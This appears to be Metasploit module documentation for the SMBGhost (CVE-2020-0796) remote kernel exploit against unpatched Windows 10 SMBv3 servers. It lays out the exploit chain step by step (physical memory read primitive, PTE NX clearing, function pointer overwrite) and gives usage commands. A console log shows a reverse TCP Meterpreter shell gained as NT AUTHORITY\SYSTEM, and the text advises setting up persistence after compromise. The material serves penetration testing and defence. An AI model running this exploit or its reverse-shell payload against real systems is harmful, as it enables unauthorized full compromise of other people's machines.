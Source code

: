 ## Vulnerable Application
A vulnerability exists within the Microsoft Server Message Block 3.1.1 (SMBv3) protocol that can be leveraged to
execute code on a vulnerable server. This remove exploit implementation leverages this flaw to execute code
in the context of the kernel, finally yielding a session as NT AUTHORITY\SYSTEM in spoolsv.exe.

This vulnerability was patched in March 2020 but prior to that enough information was publicly available to trigger a
crash which led to pre-patch workarounds. The official recommendation from [Microsoft][1] at the time was to disable
SMBv3 compression, a feature which this exploit relies on. The module's check method will determine this value using the
registry to identify whether or not compression has been disabled.

Other recommendations included restricting access to TCP port 445 via firewalls.

### Warning
There is a high probability that even when the exploit is successful the remote target will crash within about 90
minutes. It is recommended that after a successful compromise, a persistence mechanism be established and the system be
rebooted to avoid a Blue Screen of Death (BSOD).

### Installation And Setup
Windows 10 versions 1903 and 1909 (without the patch) are vulnerable out of the box. The default setting is to have
SMBv3 compression enabled.

### Exploit Internals

The exploit is based on [this PoC][2] and [this research][3]. At a high level the steps are:

1. Leverage the vulnerability to create a read primitive for physical memory
    1. Use the vulnerability to write an `MDL` describing the physical memory to read into `KUSER_SHARED_DATA`
        * `KUSER_SHARED_DATA` is used because it exists at a known address and has read/write permissions
    1. Use the vulnerability to corrupt a `SRVNET_BUFFER_HDR` to reference the previously written MDL
    1. Attempt to negotiate with the remote server, causing the desired memory to be returned as the response
1. Use the read primitive to scan for the low stub, fingerprinting it based on a known value
1. Extract the address of the page map level 4 (PML4) from the low stub once found
    1. Store the address of the low stub because it exists within the HAL heap
1. Scan the PML4 for its self-reference entry to leak its address in virtual memory, this is also used to translate
  virtual addresses into physical addresses in the future
1. Scan the HAL heap looking for the `hal!HalpInterruptController`, fingerprinting it based on a known pattern
1. Extract the address of the `hal!HalpApicRequestInterrupt` from the `hal!HalpInterruptController`
1. Use the write primitive to overwrite the PTE for `KUSER_SHARED_DATA`, granting it the necessary privileges to be
  executable
1. Copy the shellcode (which is a combination of a kernel mode bootstrap and the usermode payload from Metasploit) to
  `KUSER_SHARED_DATA`
1. Use the write primitive to overwrite the pointer of `hal!HalpApicRequestInterrupt` in `hal!HalpInterruptController`,
  replacing it with a pointer to the shellcode
1. The shellcode queues an APC to inject the usermode payload into a spoolsv.exe instance with NT AUTHORITY\SYSTEM
  privileges

## Verification Steps

1. Start msfconsole
1. Do: `use exploit/windows/smb/cve_2020_0796_smbghost`
1. Set the `RHOSTS` and `PAYLOAD` options
1. Do: `run`
1. You should get a shell, the exploitation process may take a few minutes

## Scenarios

### Windows 10 Version 1909 Build 18363.418 x64

```
msf6 > use exploit/windows/smb/cve_2020_0796_smbghost
[*] Using configured payload windows/meterpreter/reverse_tcp
msf6 exploit(windows/smb/cve_2020_0796_smbghost) > set RHOSTS 192.168.159.76
RHOSTS => 192.168.159.76
msf6 exploit(windows/smb/cve_2020_0796_smbghost) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
PAYLOAD => windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/smb/cve_2020_0796_smbghost) > set LHOST 192.168.159.128
LHOST => 192.168.159.128
msf6 exploit(windows/smb/cve_2020_0796_smbghost) > exploit

[*] Started reverse TCP handler on 192.168.159.128:4444 
[*] 192.168.159.76:445 - Executing automatic check (disable AutoCheck to override)
[!] 192.168.159.76:445 - The service is running, but could not be validated.
[*] 192.168.159.76:445 - Found low stub at physical address 0x0000000000013000
[*] 192.168.159.76:445 - PML4 at 0x00000000001ad000 (UEFI)
[*] 192.168.159.76:445 - HAL heap found at 0xfffff7cd80000000
[*] 192.168.159.76:445 - Found PML4 self-reference entry at 0x0122
[*] 192.168.159.76:445 - Found hal!HalpInterruptController at 0xfffff7cd80001478
[*] 192.168.159.76:445 - Found hal!HalpApicRequestInterrupt at 0xfffff8035f6b7bb0
[*] 192.168.159.76:445 - KUSER_SHARED_DATA PTE NX bit cleared!
[*] Sending stage (200262 bytes) to 192.168.159.76
[*] Meterpreter session 1 opened (192.168.159.128:4444 -> 192.168.159.76:49675) at 2021-04-09 14:01:43 -0400

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : DESKTOP-RTCRBEV
OS              : Windows 10 (10.0 Build 18363).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 0
Meterpreter     : x64/windows
meterpreter > 
```

[1]: https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/adv200005
[2]: https://github.com/chompie1337/SMBGhost_RCE_PoC
[3]: https://ricercasecurity.blogspot.com/2020/04/ill-ask-your-body-smbghost-pre-auth-rce.html
